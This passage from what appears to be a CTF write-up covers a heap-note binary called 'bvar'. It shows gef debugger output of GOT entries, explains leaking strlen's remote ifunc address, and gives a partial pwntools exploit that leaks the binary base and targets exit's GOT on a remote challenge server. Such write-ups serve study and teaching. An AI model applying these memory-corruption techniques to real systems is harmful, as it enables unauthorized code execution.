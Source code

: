 ```
0x55713605a660: 0x000055713605a428      0x0000001c31323334   <---- data and name 
                                                            of head and data and
                                                            next of new node
gef➤  x/gx 0x000055713605a428
0x55713605a428 <puts@got.plt>:          0x00007f23ab24c5a0
0x55713605a430 <strlen@got.plt>:        0x00007f23ab279d30   <--- target
```
There was one small issue with this approach. `strlen` is a function having different implementations (ifunc) in libc which are used based upon the system libc is running on. For some reason, different implementations were used on my machine and the remote server.<br>
To get the specific implemention, I leaked the `strlen`'s address on remote using the same leaking mechanism because after `strlen` there's is `__stack_chk_fail`'s GOT which is same on my machine and remote server. Then simple offset calculation.<br>
Final exploit below:
```py
#!/usr/bin/env python3
from pwn import *

def start():
    global p
    if args.REMOTE:
        p = remote('167.99.78.201', 7777)
    else:
        p = elf.process(env = {"LD_PRELOAD": libc.path + ":./ld-2.31.so"})

def add(name: bytes, data: bytes):
    p.sendlineafter('>>> ', name + b'=' + data)

    return name[:4]

def delete(name: bytes):
    p.sendlineafter('>>> ', b'delete ' + name)

def edit(name: bytes, new_name: bytes):
    p.sendlineafter('>>> ', b'edit ' + name)
    time.sleep(1)
    p.sendline(new_name)

def show(name: bytes):
    p.sendlineafter('>>> ', name)

def clear():
    p.sendlineafter('>>> ', 'clear')

context.binary = elf = ELF('./bvar_patched')
libc = ELF('./libc-2.31.so')
start()

a = add(b'1234', b'test1')
b = add(b'4321', b'test2')
delete(a)

c = add(b'\xc8', b'hack')
show(b'')
binary_leak = u64(p.recvline(False).ljust(8, b'\x00'))
elf.address = binary_leak - 0x3594

clear()

a = add(b'1234', b'test1')
b = add(b'4321', p64(elf.got.exit))
delete(a)

```